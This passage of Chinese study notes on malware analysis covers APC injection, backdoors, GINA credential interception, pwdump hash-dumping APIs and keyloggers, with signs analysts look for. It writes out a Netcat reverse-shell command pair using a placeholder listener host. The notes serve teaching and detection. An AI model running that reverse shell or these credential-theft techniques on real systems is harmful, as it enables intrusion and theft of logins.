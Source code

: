 （2）**Detours库修改二进制程序**：如特洛伊木马化程序，特征是PE文件创建.detour 段                       

6、**APC注入**：（内核APC、用户APC）             
* 用户APC：QueueUserAPC(pfnAPC、hThread、dwData)                  
* 内核APC：KeInitializeApc、KeInsertQueueApc               
                
               
## 二、后门（backdoor）：
1、**定义**：能让攻击者远程访问一个受害的机器。互联网通信方法通常利用80端口，使用HTTP协议。               
2、**分类**：                     
（1）**反向shell**（可以是一个单独的恶意代码，也可以是后门程序中的组件）                     
A、Netcat反向shell：                  
* 远程机器使用命令nc -l -p 80              
* 受害机器使用命令nc listener_ip 80 -e cmd. exe             

B、Windows反向shell：            
* 基础方法：调用CreateProcess，修改它的STARTUPINFO结构               
* 多线程技术：CreateThread、CreatePipe              

（2）**远程控制工具**              
（3）**僵尸网络**              
A、蠕虫        
B、分布式拒绝服务（DDoS）：例如：木马              
                
               
## 三、登录凭证窃密器：           
1、**定义**：窃取登录凭证                
2、**分类**：                 
（1）**GINA拦截**：            
A、等待用户登录以窃取                   
B、特征：            
* 注册表项：HKLM\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon\GinaDLL       
* GINA在msgina.dll中实现             
* 如果分析的一个DLL有许多包含前缀Wlx的导出函数，那么它基本上就是一个GINA拦截器           

（2）**口令哈希转储**：转储Windows系统中存放信息的程序，例如密码哈希值，程序直接使用，或对其进行离线破解，或利用他们执行Pass-the-Hash(PSH)攻击。                                        
* 很多以前的恶意代码都会使用Pwdump和Pass-the-Hash(PSH)工具包，但是现在很多也会用自己编译的专有版本，以逃过反病毒软件对标准版本特征码的识别。                 
* pwdump程序及其变种的导出函数默认是GetHash，但很有可能会被更改名字。导出函数通常会多次调用GetProcAddress。               
* SamIConnect——连接SAM（安全账户管理器）                 
* SamIGetPrivateData——提取哈希                     
* SystemFunction025和SystemFunction027——解密哈希            
* NlpGetPrimaryCredential——转储NT和LM哈希                       

（3）**击键记录**：(之前提到的钩子的一个应用)              
A、基于内核的击键记录器：                 
* 用户模式下的应用程序很难探测到；              
* 经常作为Rootkit的一部分，并且它们作为一个键盘驱动绕过用户空间应用程序和保护。               

B、用户空间的击键记录器：                                 
* 通常使用SetWindowsHookEx安装挂钩；             
* 通常使用GetAsyncKeyState和GetForegroundWindow不断地轮询按键的状态；                   
* 对于有些恶意代码，也可以通过提取字符串来判断。例如如果想要记录所有按键，就必须有一种如PageDown的字符串出现。当然，恶意程序可以被提串是前提。                   
                
               